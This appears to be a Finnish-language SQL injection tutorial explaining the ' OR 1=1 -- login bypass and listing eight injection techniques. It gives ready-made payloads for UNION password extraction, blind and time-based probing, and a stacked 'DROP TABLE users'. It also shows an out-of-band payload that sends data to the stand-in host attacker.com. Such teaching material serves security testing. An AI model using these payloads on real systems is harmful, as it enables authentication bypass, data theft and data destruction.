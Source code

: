 **Klassinen SQL-injektio:** <br><br>
Jos lomake tai URL-parametrit välitetään suoraan SQL-kyselyyn ilman suojausta, kuten:<br>
`SELECT * FROM users WHERE username = '[syöte]' AND password = '[syöte]';`

password (syöte) siis joku satunnainen sana väliin <br>

<br>
Tällöin kyselystä tulee käytännössä: <br>

`SELECT * FROM users WHERE username = '' OR 1=1 -- ' AND password = '';`

<br>
Mitä tämä tekee?<br>

```
' OR 1=1 --:
' päättää alkuperäisen stringin.
OR 1=1 on aina tosi, joten se ohittaa autentikoinnin.
-- on SQL-kommenttimerkki, joka kommentoi loput rivistä pois (eli AND password = ... jää huomiotta).
```

## SQL injektio muita menetelmiä 

nykyaikainen white hat -testaus ja hyökkäystavat voivat käyttää monia eri tekniikoita riippuen sovelluksen rakenteesta, suojauksista ja tietokannasta.


1. UNION SQL Injection <br>
' UNION SELECT username, password FROM users --


2. Tautology Injection (klassikko: OR 1=1) <br>
' OR 1=1 --


3. Blind SQL Injection (Boolean-based) <br>
' AND 1=1 --   # toimii
' AND 1=2 --   # ei toimi


4. Time-based Blind SQL Injection <br>
' OR IF(1=1, SLEEP(5), 0) -- 


5. Error-based SQL Injection <br>
' ORDER BY 100 -- 


6. Stacked Queries (jos sallittu) <br>
'; DROP TABLE users; --


7. Second-order SQL Injection <br>
Tätä ei suoriteta heti, vaan tallennetaan ensin ja suoritetaan myöhemmin toisessa yhteydessä. Eli ensin rekisteröidään käyttäjänimi ja sitten 


8. Out-of-Band SQL Injection <br>
Tämä vaatii erityisiä olosuhteita, ja SQL-injektio lähettää tiedon ulos järjestelmästä, esim. DNS-kyselynä: <br>
' OR LOAD_FILE('\\\\attacker.com\\file') -- 
